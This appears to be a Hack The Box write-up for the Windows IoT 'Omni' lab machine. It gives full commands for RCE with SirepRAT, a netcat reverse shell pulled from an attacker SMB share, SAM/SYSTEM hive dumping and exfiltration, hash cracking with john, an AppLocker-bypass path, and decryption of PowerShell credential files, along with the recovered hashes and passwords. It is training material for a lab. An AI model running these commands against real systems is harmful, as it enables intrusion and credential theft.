







# Writeup of _OMNI_

#### Easy machine (hackthebox.com)

#### Sylvain (Javali) Júlio - 08/09/2021

---

---


# Enumeration

## Nmap

For enumeration, after verifying the connection, I always do a nmap scan like this:

 

At this point, we know:

-   Port 135 Open: MSRPC is an interprocess communication (IPC) mechanism that allows client/server software communcation
-   Port 8080 open: Basic realm=Windows Device Portal - The Windows Device Portal (WDP) is a web server included with Windows devices that lets you configure and manage the settings for the device over a network or USB connection.  Access to port 8080 from the web browser is restricted by basic authentication



After some researches, if we google for _"Windows Device Portal exploit github"_, we can find this tool:

> SirepRAT - RCE as SYSTEM on Windows IoT Core - GitHub (https://github.com/SafeBreach-Labs/SirepRAT)


# Exploitation

```bash
git clone https://github.com/SafeBreach-Labs/SirepRAT.git
cd SirepRAT

sudo python3 setup.py install

# The syntaxt is a bit hard... but the github page as a lot of examples...
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}"
```

The command give us an output that looks good. But we can confirm if we have RCE with a better combo!

```bash
# Listening for pings
sudo tcpdump -i tun0 icmp

# Run RCE on the target machine to ping my kali machine
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c ping 10.10.14.16"
```

 

At this point, we know we have effectively RCE. So, the next step is to get a reverse shell

-   I tryied Certutil but don't work (don't existe)
-   I tryied with IEX but don't work too (don't exist')
-   I create a smbserver, wget a netcat (nc64.exe) on my kali
-   Prepare the listener to receive the reverse shell _(sudo rlwrap nc -lvnp 443)_

```bash
# SMB Server
sudo smbserver.py smbFolder $(pwd) -user javali -password javali -smb2support

# NC listener
sudo rlwrap nc -lvnp 443

# Get Reverse shell
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c net use \\10.10.14.16\smbFolder /u:javali javali'

python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c \\10.10.14.16\smbFolder\nc64.exe -e cmd 10.10.14.16 443'
```

We are in the target machine! 


# Privesc

## Enumeration of the System.

On all CTF, the objective is to get flag (close to always user.txt and root.txt)

If we have permitions, we can find this with a simple command:

```bash
cd C:\
dir /r /s user.txt  # user.txt : C:\Data\Users\app
dir /r /s root.txt  # root.txt : C:\Data\Users\administrator

icacls C:\Data\Users\app\user.txt  # NT AUTHORITY\SYSTEM:(I)(F)
								   # BUILTIN\Administrators:(I)(F)
                                   # OMNI\app:(I)(F)

icacls C:\Data\Users\administrator\root.txt  # NT AUTHORITY\SYSTEM:(I)(F)
                                             # BUILTIN\Administrators:(I)(F)
                                             # OMNI\Administrator:(I)(F)
```
 At this point, we suppose we have to migrate at the user app, or directly at administrator... We don't know what privilege we have, but we know with SAM and SYSTEM files, we can extract all NT hash from all LOCAL users of the target machine. We give a try...

 ```bash
reg save HKLM\SYSTEM SYSTEM.bak  # The operation completed successfully.
reg save HKLM\SAM SAM.bak        # The operation completed successfully.

# Download that files with smbserver
copy .\SAM.bak \\10.10.14.16\smbFolder\SAM.bak
copy .\SYSTEM.bak \\10.10.14.16\smbFolder\SYSTEM.bak

# On kali machine, extract data
secretsdump.py -sam SAM.bak -system SYSTEM.bak LOCAL
#>  Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation
#>  
#>  [*] Target system bootKey: 0x4a96b0f404fd37b862c07c2aa37853a5
#>  [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
#>  Administrator:500:aad3b435b51404eeaad3b435b51404ee:a01f16a7fa376962dbeb29a764a06f00:::
#>  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
#>  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
#>  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:330fe4fd406f9d0180d67adb0b0dfa65:::
#>  sshd:1000:aad3b435b51404eeaad3b435b51404ee:91ad590862916cdfd922475caed3acea:::
#>  DevToolsUser:1002:aad3b435b51404eeaad3b435b51404ee:1b9ce6c5783785717e9bbb75ba5f9958:::
#>  app:1003:aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95:::
#>  [*] Cleaning up...
 ```

Now, with all that hashes, we can try to crack them with john the ripper, and rockyou.txt

```bash
echo "Administrator:500:aad3b435b51404eeaad3b435b51404ee:a01f16a7fa376962dbeb29a764a06f00:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:330fe4fd406f9d0180d67adb0b0dfa65:::
sshd:1000:aad3b435b51404eeaad3b435b51404ee:91ad590862916cdfd922475caed3acea:::
DevToolsUser:1002:aad3b435b51404eeaad3b435b51404ee:1b9ce6c5783785717e9bbb75ba5f9958:::
app:1003:aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95:::" > hashes

john --wordlist=/usr/share/wordlists/rockyou.txt --format=nt hashes
john --format=NT --show hashes  # app:mesh5143
```

I tryied to Invoke_Command with the credentials we get but dont worked... So i tried to login into the website at port 8080




We can execute commands directely with Windows Device Portal. But it's always better get a real reverse shell...
We can't do the same with smbserver, but we can transfere nc64.exe to the target. I always choose C:\Windows\System32\spool\drivers\color\ path because is nearly never blocked (applocker bypass)...

```bash
# On reverse shell with user omni
copy \\10.10.14.16\smbFolder\nc64.exe C:\Windows\System32\spool\drivers\color\nc64.exe

# On website with user app
C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.16 443
```

## User "app"

In the home directory of "app", we can see the user.txt, but we can see another strange file: iot-admin.xml.
The file looks like this:


This file is a Powershell Credential. to extract the "Password" field, we can do that:

```bash
(Import-CliXml -Path iot-admin.xml).GetNetworkCredential().password
#> _1nt3rn37ofTh1nGz
# This maybe is the password of administrator.
# administrator:_1nt3rn37ofTh1nGz

# with the same process (because root.txt, user.txt and iot-admin.xml are all Powershell Credentials), we can extract the user.txt flag:
(Import-CliXml -Path user.txt).GetNetworkCredential().password
# 7cfd50f6bc34db3204.............. 
```

With new credential, we can login on website as user administrator



Now we can get reverse shell with the same nc64.exe we download before

```bash
C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.16 443
```



For the flag, we use the same tecnic to extract the password of the Powershell Credential:

```bash
type root.txt  # Props are the same 'UserName' and 'Password'
(Import-CliXml -Path root.txt).GetNetworkCredential().Password
#> 5dbdce5569e2c47.................

```
